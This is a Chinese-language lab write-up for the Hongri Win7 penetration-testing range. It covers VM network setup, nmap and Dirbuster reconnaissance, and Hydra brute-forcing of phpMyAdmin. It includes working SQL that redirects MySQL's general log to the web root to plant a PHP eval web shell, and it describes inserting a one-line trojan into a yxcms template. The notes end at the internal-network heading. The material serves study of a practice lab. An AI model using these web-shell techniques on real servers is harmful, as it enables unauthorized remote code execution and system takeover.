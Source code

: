 #### 1. 靶场配置

是因为我用mac的原因吗？一个下午，才能在自己的kali系统，ping通win7.首先是VMware Fusion需要是Pro版本，不然没发自定义VMnet，但是等我弄了Pro版本，自定义了VMnet，又发现好像不需要额外创建什么Vmnet1，VMnet2，VMnet3？？？那那些教程是干嘛的。

其次，我win7，无论是nat or 桥接， kali一直ping不通。。。搞了很久，原来是win里面网络类型，选了`工作区`我是想着，这个东西不是模拟公司内网嘛。然后用了nat或者桥接，只要开了两个网卡，kali那边即使是同一个网段，都不能打开这台win7的的服务。。。



#### 2. 信息收集

1. nmap搜集主机端口情况

```shell
nmap -sV 192.168.4.50
# 结果
Nmap scan report for 192.168.4.50
Host is up (0.00089s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.23 ((Win32) OpenSSL/1.0.2j PHP/5.4.45)
3306/tcp open  mysql   MySQL (unauthorized)
```

2. Dirbuster 

填入扫描主机ip，选择字典，然后刷个视频，摸一下鱼。

<img src="./images/20230409173932.jpg" style="zoom: 33%;" />

3. 看到有phpmyadmin这个目录后，别人都是弱口令root进去了，我要试试九头蛇行不行。

<img src="./images/20230409183648.jpg" style="zoom: 33%;" />

4. 冲到密码之后,看别的师傅是修改phpadmin中，写log的地址，原理应该是你执行的sql语句，都会记录到这个目录，那么加上这个靶机开启了php服务器，如果将这个log文件写到`/WWW`目录下，那么客户机是能访问到的，其次如果将php语句写入到一个php文件？ 😏

**flag：日志文件写入shell**

```shell
set global general_log="ON";
set global general_log_file="C:/phpStudy/WWW/shell.php";
select "<?php @eval($_POST['cmd']); ?>";
```

然后在蚁剑，地址写上`ip地址/shell.php`,密码是cmd

<img src="./images/20230409185306.jpg" style="zoom:33%;" />

5. 抄袭老师的做法，备份了`yxcms`的代码，然后查找关于这个`cms`的历史漏洞。然后其实这个页面红日给出了答案。

<img src="./images/20230410201037.jpg" style="zoom: 50%;" />

登录了后台管理，然后在`前台模板->管理模板文件->index_index.php`编辑首页的php代码，插入一句话木马。



#### 3. 内网渗透





